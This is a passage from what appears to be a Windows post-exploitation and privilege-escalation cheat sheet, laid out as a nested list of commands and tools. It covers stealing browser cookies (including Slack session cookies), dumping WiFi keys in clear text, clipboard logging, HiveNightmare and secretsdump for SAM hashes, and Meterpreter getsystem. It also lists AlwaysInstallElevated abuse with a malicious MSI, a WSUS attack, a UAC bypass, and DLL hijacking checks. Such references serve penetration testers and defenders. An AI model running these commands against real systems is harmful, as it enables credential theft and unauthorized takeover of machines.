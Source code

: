             *   `copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .`
            *   `python3 cookieextractor.py --dbpath [SQLITE_FILE] --host slack --cookie d`
        *   Backup Drives
            *   `restic.exe -r E:\backup snapshots`
            *   `restic.exe -r E:\backup restore [SNAPSHOT_ID] --target C:\Restored`
            *   `C:\Restored` → Credential Hunting 
        *   WiFI Passwords
            *   `netsh wlan show profile`
            *   `netsh wlan show profile [SSID] key=clear`
        *   Sticky Notes / Clipboard
            *   `c:\Users\[USER]\AppData\Roaming\Microsoft\Sticky Notes`
            *   `cd C:\users && dir /a /s /b *.sqlite`
            *   `Invoke-ClipboardLogger`
        *   [Exchange Inboxes](https://github.com/dafthack/MailSniper)
*   System
    *   OS
        *   Kernel Exploits
            *   `systeminfo` / `wmic qfe list brief`  → [Missing Hotfixes & KB Patches Checker](https://patchchecker.com) / Windows Server ≤ 2019
            *   Watson / WES-NG                                → Exploit Checker Tools
            *   [Sherlock](https://github.com/rasta-mouse/Sherlock)                                                → Old Kernels → `Find-AllVulns`
            *   [MS14-068](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/MS14-068/)                                              → Kerberos Local Escalation
            *   Meterpreter                                           → `use post/multi/recon/local_exploit_suggester` → `run`
            *   Process Migration
                *   Meterpreter Shell → `ps` → `svchost.exe` PID
                *   `migrate [PID]`       → `load priv` → `getsystem`
        *   Elevated Install
            *   `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
            *   `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
            *   `msiexec /quiet /qn /i [MALICIOUS.msi]`
        *   WSUS
            *   HTTP →    `reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer`
            *   Set to 1 → `reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer`
            *   [WSUSPicious](https://github.com/GoSecure/WSuspicious)
        *   HiveNightmare
            *   `icacls [SAM_FILE]` → Readable by `BUILTIN\Users`
            *   `HiveNightmare.exe` → GossiTheDog POC
            *   `secretsdump.py -sam SAM -system SYSTEM -security SECURITY local`
        *   UAC EoP
            *   GUI Access → [CVE-2019-1388](https://github.com/jas502n/CVE-2019-1388) / [Support App](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#insecure-gui-apps)
            *   [Exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#from-low-priv-user-to-nt-authority-system-cve-2019-1388-uac-bypass)
        *   Drivers
            *   OffensiveCSharp → `DriverQuery.exe --no-msft`
            *   Exploit Research
        *   SCClient
            *   `C:\Windows\CCM\SCClient.exe`
            *   `Get-WmiObject -Namespace "root\ccm\clientSDK" -Class CCM_Application -Property * | % { if ($_.ApplicabilityState -eq "Applicable") { $_.Name } }`
        *   Environment Variables
            *   `set` → PATH / Drives / Credentials / Architecture
            *   DLL Hijacking Folders
                *   `for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users %username%" && echo. )`
    *   Network
        *   Local Services
            *   `netstat -ano`             → `ESTABILISHED/LISTEN` → `127.0.0.1` / `::1` / `[INTRANET_IP]`
            *   Associated Process  → `tasklist | findstr [SERVICE_PID]` → Check Privilege / Process String
            *   Configuration Files  → All Services + Permissions (MySQL → `my.cnf`)